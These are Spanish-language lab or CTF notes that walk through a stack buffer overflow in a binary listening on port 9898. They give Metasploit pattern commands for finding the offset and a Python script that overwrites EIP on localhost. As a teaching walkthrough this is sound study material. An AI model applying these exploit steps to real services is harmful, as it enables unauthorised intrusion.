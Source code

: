 Hacemos el escaneo de nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230902103757.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230902103933.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230902103953.png]]
Y vemos que el login como anonymous está habilitado:
![[Mis apuntes/ANEXOS/Pasted image 20230902104039.png]]
Si ejecutamos ese binario, vemos que no ocurre nada aparentemente:
![[Mis apuntes/ANEXOS/Pasted image 20230902104134.png]]
Y con la herramienta strace vemos que se esto levanta un puerto, el 9898 dentro del localhost:
![[Mis apuntes/ANEXOS/Pasted image 20230902104305.png]]
Por lo que probamos en conectarnos y vemos que funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230902104338.png]]
De todos modos esto mismo corre en la máquina por el puerto 9898 (como también vimos con nmap):
![[Mis apuntes/ANEXOS/Pasted image 20230902104434.png]]
En este punto, es posible que este binario admita un número determinado de caracteres, de tal forma que por ejemplo si ponemos algo no esperado nos sale el siguiente mensaje:
![[Mis apuntes/ANEXOS/Pasted image 20230902105248.png]]
Pero si ponemos una cadena de caracteres mucho mayor, el binario se corrompe y se cierra:
![[Mis apuntes/ANEXOS/Pasted image 20230902105325.png]]
## OBTENER EL OFFSET
Tenemos que obtener un dato llamado offset, y para ello primero vamos a usar una herramienta para generar el payload del bof:
```bash
msf-pattern_create -l 2000
```
![[Mis apuntes/ANEXOS/Pasted image 20230902111740.png]]
Una vez con esto, vamos a ejecutar una herramienta llamada gdb donde vamos a pasarle este dato (en la parte de abajo le pegamos el payload anterior y arriba vemos que obtenemos un cópdigo):
![[Mis apuntes/ANEXOS/Pasted image 20230902111834.png]]
Ese código lo pasamos por una herramienta llamada msf-pattern_offset que nos permitirá conocer el offset:
```bash
msf-pattern_offset -l 2000 -q 0x64413764
```
![[Mis apuntes/ANEXOS/Pasted image 20230902111905.png]]
## CONTROLAR EL EIP
Ahora el siguiente paso será crear un script de python para controlar el EIP usando el offset obtenido anteriormente:
![[Mis apuntes/ANEXOS/Pasted image 20230902112022.png]]
```python
#!/usr/bin/python

import sys,socket

shellcode = 'A'*112 + 'B'*4 + "\x90"*32 #if done correctly, you should see the EIP filled with 42424242

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9898))
    s.send((shellcode))
    s.close()

except:
    print("Error connecting to server")
    sys.exit()
```
Hay que tener en cuenta que le ponemos 112 porque es el offset obtenido anteriormente:
![[Mis apuntes/ANEXOS/Pasted image 20230902112229.png]]
